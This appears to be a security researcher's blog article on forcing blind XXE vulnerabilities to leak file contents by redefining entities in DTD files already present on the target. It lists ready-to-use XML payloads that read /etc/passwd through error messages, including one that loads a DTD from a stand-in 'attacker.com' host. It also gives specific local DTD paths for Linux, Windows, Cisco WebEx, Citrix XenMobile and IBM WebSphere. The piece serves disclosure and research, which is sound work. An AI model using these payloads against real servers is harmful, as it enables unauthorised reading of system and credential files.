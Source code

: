 # [Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

This little technique can force your blind XXE to output anything you want!

![Preview](preview.png)

## Why do we have trouble exploiting XXE in 2k18?

Imagine you have an XXE. External entities are supported, but the server’s response is always empty. In this case you have two options: **error-based** and **out-of-band** exploitation.

Consider this error-based example:

**Request**
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**Response**
```
java.io.FileNotFoundException: /nonexistent/  
**root:x:0:0:root:/root:/bin/bash  
bin:x:1:1:bin:/bin:/usr/bin/nologin  
daemon:x:2:2:daemon:/:/usr/bin/nologin  **
(No such file or directory)
```

**Contents of ext.dtd**

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;

See? You are using an external server for payload delivery. What can you do if there is a firewall between you and the target server? Nothing!

What if we just put external DTD content directly in the DOCTYPE? Some errors will always appear:


**Request**

    <?xml version="1.0" ?>
    <!DOCTYPE message [
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
        %eval;
        %error;
    ]>
    <message></message>

**Response**

    Internal Error: SAX Parser Error. Detail:  
    The parameter entity reference “%file;” cannot occur within markup in the internal subset of the DTD.
    

External DTD allows us to include one entity inside the second, but it is prohibited in the internal DTD.

## What can we do with internal DTD?

To use external DTD syntax in the internal DTD subset, you can bruteforce a local dtd file on the target host and redefine some parameter-entity references inside it:


**Request**

    <?xml version="1.0" ?>
    <!DOCTYPE message [
        <!ENTITY % local_dtd SYSTEM "file:///opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd">

        <!ENTITY % condition 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>

        %local_dtd;
    ]>
    <message>any text</message>

**Response**

    java.io.FileNotFoundException: /nonexistent/  
    <span style="background: #D9FFAD;">root:x:0:0:root:/root:/bin/bash  
    bin:x:1:1:bin:/bin:/usr/bin/nologin  
    daemon:x:2:2:daemon:/:/usr/bin/nologin  
    </span>  
    (No such file or directory)

**Contents of sip-app_1_0.dtd**

    …
    <!ENTITY % condition "and | or | not | equal | contains | exists | subdomain-of">
    <!ELEMENT pattern (%condition;)>
    …

It works because all XML entities are constant. If you define two entities with the same name, only the first one will be used.

## How can we find a local dtd file?

Nothing is easier than enumerating files and directories. Below are a few more examples of successful applications of this trick:  

### Custom Linux System

    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamsa 'Your DTD code'>
    %local_dtd;

### Custom Windows System

    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

Thanks to @Mike_n1 from Positive Technologies for sharing this path of always-existing Windows DTD file.

### Cisco WebEx

### 

    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">
    <!ENTITY % url.attribute.set '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

### Citrix XenMobile Server

    <!ENTITY % local_dtd SYSTEM "jar:file:///opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
    <!ENTITY % Body '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

### Custom Multi-Platform IBM WebSphere Application

    <!ENTITY % local_dtd SYSTEM "./../../properties/schemas/j2ee/XMLSchema.dtd">
    <!ENTITY % xs-datatypes 'Your DTD code'>
    <!ENTITY % simpleType "a">
    <!ENTITY % restriction "b">
    <!ENTITY % boolean "(c)">
    <!ENTITY % URIref "CDATA">
    <!ENTITY % XPathExpr "CDATA">
    <!ENTITY % QName "NMTOKEN">
    <!ENTITY % NCName "NMTOKEN">
    <!ENTITY % nonNegativeInteger "NMTOKEN">
    %local_dtd;

## Timeline

    01/01/2016 — Discovering the technique
    12/12/2018 — Writing the article :D
    13/12/2018 — Full disclosure
